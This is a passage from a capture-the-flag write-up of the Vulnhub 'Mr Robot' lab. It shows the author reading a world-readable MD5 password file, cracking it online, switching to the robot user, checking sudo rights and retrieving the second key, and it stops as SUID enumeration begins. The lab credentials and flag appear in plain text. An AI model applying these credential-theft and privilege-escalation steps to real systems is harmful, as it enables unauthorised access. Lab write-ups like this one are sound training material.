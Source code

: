 The second flag is located in the home directory of robot, but this file can only read by the user robot.
The other interesting file is the password.raw-md5 file which is readable for everyone.
```bash
daemon@linux:/$ cat /home/robot/password.raw-md5
cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

```
Since it is a MD5 hash, it should be cracked easily. Let's check the hash on crackstation.
```URL
https://crackstation.net/
```

![Image](/assets/img/WriteUp/Vulnhub/MrRobot/Pasted image 20230305184351.png){: width="700" height="400" }

```password
abcdefghijklmnopqrstuvwxyz
```

With this password we can try to switch the user to `robot`.


-----
## Privilege escalation

```bash
daemon@linux:/$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/$ 

```
Let's see if we can `sudo` something.

```bash
robot@linux:/$ sudo -l
sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.
```

Now it is time to enumerate the user.
```bash
robot@linux:/$ whoami;id
whoami;id
robot
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:/$ 

```

Capture the flag in the home directory of `robot`.
```bash
robot@linux:/$ cd ~
cd ~
robot@linux:~$ ls
ls
key-2-of-3.txt  password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ 

```
Now let's see what file permissions are set on files. Let's check the SUID first.
```bash
```